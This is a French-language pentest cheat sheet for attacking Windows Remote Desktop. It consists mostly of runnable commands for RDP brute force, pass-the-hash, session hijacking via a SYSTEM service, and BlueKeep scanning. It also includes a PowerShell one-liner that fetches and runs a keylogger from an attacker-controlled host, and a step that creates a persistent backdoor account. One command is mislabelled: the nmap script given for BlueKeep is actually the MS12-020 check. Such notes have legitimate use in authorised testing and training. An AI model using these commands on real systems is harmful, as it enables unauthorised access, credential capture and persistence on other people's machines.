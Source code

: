 # RDP (3389/TCP)

Remote Desktop Protocol permet l'accès à distance à l'interface graphique de systèmes Windows.

## 🔍 Énumération

### Scan de base
```bash
# Vérifier si RDP est actif
nmap -p 3389 $IP

# Scanner avec scripts Nmap
nmap --script "rdp-*" -p 3389 $IP

# Récupérer les informations de version
nmap -sV -p 3389 $IP
```

### Identification du service
```bash
# Vérifier la bannière
nxc rdp $IP

# Vérifier le certificat RDP
openssl s_client -connect $IP:3389
```

## 🔨 Exploitation

### Attaque par force brute
```bash
# Avec Hydra
hydra -L users.txt -P passwords.txt $IP rdp

# Avec Crowbar (meilleure gestion des blocages)
crowbar -b rdp -s $IP/32 -U users.txt -C passwords.txt

# Avec Netexec
nxc rdp $IP -u usernames.txt -p passwords.txt
```

### RDP Pass-the-Hash
```bash
# Nécessite que Restricted Admin Mode soit activé sur la cible
xfreerdp /v:$IP /u:Administrator /pth:HASH_NT

# Alternative avec Netexec pour tester
nxc rdp $IP -u Administrator -H HASH_NT
```

### Détournement de session (Session Hijacking)
```bash
# Lister les sessions actives
query user

# Activer Restricted Admin Mode si nécessaire (sur la cible)
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# Créer un service pour le détournement (nécessite SYSTEM)
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#0"
net start sessionhijack
```

### BlueKeep (CVE-2019-0708)
```bash
# Vérifier la vulnérabilité
nmap --script rdp-vuln-ms12-020 -p 3389 $IP

# Avec Metasploit
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS $IP
run
```

## 🔐 Post-exploitation

### Transfert de fichiers via RDP
```bash
# Monter un dossier local avec rdesktop
rdesktop $IP -d DOMAIN -u USERNAME -p PASSWORD -r disk:share=/path/to/local/folder

# Monter un dossier local avec xfreerdp
xfreerdp /v:$IP /d:DOMAIN /u:USERNAME /p:PASSWORD /drive:share,/path/to/local/folder

# Accéder aux fichiers montés depuis la session RDP
\\tsclient\share\
```

### Capture d'identifiants
```bash
# Installer un keylogger sur la cible
# Exemple avec PowerShell
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://VOTRE_IP/Get-Keystrokes.ps1'); Get-Keystrokes -LogPath C:\temp\keylog.txt"
```

### Persistance
```bash
# Créer un utilisateur local et l'ajouter au groupe RDP
net user hacker P@ssw0rd! /add
net localgroup "Remote Desktop Users" hacker /add
```

## ⚠️ Erreurs courantes & astuces
- RDP peut être configuré sur un port non standard
- Windows peut bloquer les comptes après plusieurs échecs d'authentification
- Le Pass-the-Hash ne fonctionne que si Restricted Admin Mode est activé
- Les sessions multiples peuvent être désactivées par GPO
- Le détournement de session ne fonctionne plus sur les versions récentes (Server 2019+)